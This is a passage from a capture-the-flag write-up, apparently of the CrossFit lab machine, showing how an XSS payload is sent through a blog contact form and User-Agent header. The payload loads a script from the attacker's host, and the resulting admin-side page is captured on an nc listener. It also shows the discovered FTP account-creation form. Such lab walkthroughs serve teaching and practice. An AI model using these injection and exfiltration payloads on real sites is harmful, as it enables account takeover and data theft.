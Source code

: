 
On sending that with curl:

    
    
    root@kali# curl -s http://gym-club.crossfit.htb/blog-single.php --data 'name=0xdf&email=0xdf@crossfit.htb&phone=9999999999&message=%3Cscript+src%3D%22http%3A%2F%2F10.10.14.11%22%3E%3C%2Fscript%3E&submit=submit' -H 'User-Agent: <script src="http://10.10.14.11/ftp-create-get.js"></script>'
    

The page source is returned to `nc` listening on TCP 3000:

    
    
    <!DOCTYPE html>
    
    <html>
    <head>
        <title>FTP Hosting - Account Management</title>
        <link href="https://cdnjs.cloudflare.com/ajax/libs/twitter-bootstrap/4.0.0-alpha/css/bootstrap.css" rel="stylesheet">
    </head>
    <body>
    
    <br>
    <div class="container">
            <div class="row">
            <div class="col-lg-12 margin-tb">
                <div class="pull-left">
                    <h2>FTP Hosting - Account Management</h2>
                </div>
                <div class="pull-right">
                    <a class="btn btn-success" href="http://ftp.crossfit.htb/accounts/create"> Create New Account</a>
                </div>
            </div>
        </div>
        <table class="table table-bordered">
            <tr>
                <th>No</th>
                <th>Username</th>
                <th>Creation Date</th>
                <th width="280px">Action</th>
            </tr>
        </table>
    </div>
    </body>
    </html>
    

The link to `http://ftp.crossfit.htb/accounts/create` is interesting. I’ll get
that page next. It contains a form allowing a user to set a username and
password:

    
    
    <form action="http://ftp.crossfit.htb/accounts" method="POST">
        <input type="hidden" name="_token" value="2kUXRzOMFY721Bppx9GnlMDpRKsc9CcX1qVzbD3H">
         <div class="row">
            <div class="col-xs-12 col-sm-12 col-md-12">
                <div class="form-group">
                    <strong>Username:</strong>
                    <input type="text" name="username" class="form-control" placeholder="Username">
                </div>
            </div>
            <div class="col-xs-12 col-sm-12 col-md-12">
                <div class="form-group">
                    <strong>Password:</strong>
                    <input type="password" name="pass" class="form-control" placeholder="Password">
                </div>
            </div>
            <div class="col-xs-12 col-sm-12 col-md-12 text-center">
